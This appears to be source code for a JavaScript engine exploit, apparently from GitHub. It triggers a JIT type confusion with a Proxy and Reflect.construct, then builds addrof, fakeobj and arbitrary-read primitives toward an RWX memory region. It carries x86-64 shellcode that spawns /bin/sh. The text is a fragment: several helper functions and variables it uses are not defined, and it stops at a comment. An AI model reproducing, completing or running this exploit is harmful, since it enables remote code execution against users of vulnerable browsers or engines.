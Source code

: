 ```js
let shellcode = [106, 104, 72, 184, 47, 98, 105, 110, 47, 47, 47, 115, 80, 72, 137, 231, 104, 114, 105, 1, 1, 129, 52, 36, 1, 1, 1, 1, 49, 246, 86, 106, 8, 94, 72, 1, 230, 86, 72, 137, 230, 49, 210, 106, 59, 88, 15, 5];

function empty() { }

function f(p) {
    a.push(Reflect.construct(empty, arguments, p) ? 3.2378e-319 : 3.2378e-319);  // itof(0xfffen)
    for (let i = 0; i < ITERATIONS; i++) { }
}

let p = new Proxy(Object, {
    get: () => {
        a[1] = {};
        oob_arr = [0.1];
        obj_arr = [{}];
        buf = new ArrayBuffer(shellcode.length);
        return Object.prototype;
    }
});

function main(p) {
    f(p);
    for (let i = 0; i < ITERATIONS; i++) { }
}

for (let i = 0; i < ITERATIONS; i++) { empty(); }
main(empty);
main(empty);
main(p);

// get (compressed) address of object
function addrof(obj) {
    obj_arr[0] = obj;
    return ftoi(oob_arr[4]) & 0xffffffffn;
}

// generate fake object
function fakeobj(addr) {
    let obj_addr = ftoi(oob_arr[4]);
    obj_addr &= 0xffffffff00000000n;
    obj_addr |= addr;
    oob_arr[4] = itof(obj_addr);
    return obj_arr[0];
}

let float_arr_map = ftoi(oob_arr[1]) & 0xffffffffn;  // map of float array

// arbitrary address read
function aar(addr) {
    let elements = addr - 8n;  // elements pointer
    let length = 2n;  // length is 1
    let float_arr_struct = [0.1, 0.2];  // fake float array structure
    float_arr_struct[0] = itof(float_arr_map);
    float_arr_struct[1] = itof((length << 32n) | elements);
    let fake = fakeobj(addrof(float_arr_struct) - 0x10n);  // fake float array
    return ftoi(fake[0]);
}

// allocate rwx memory region
```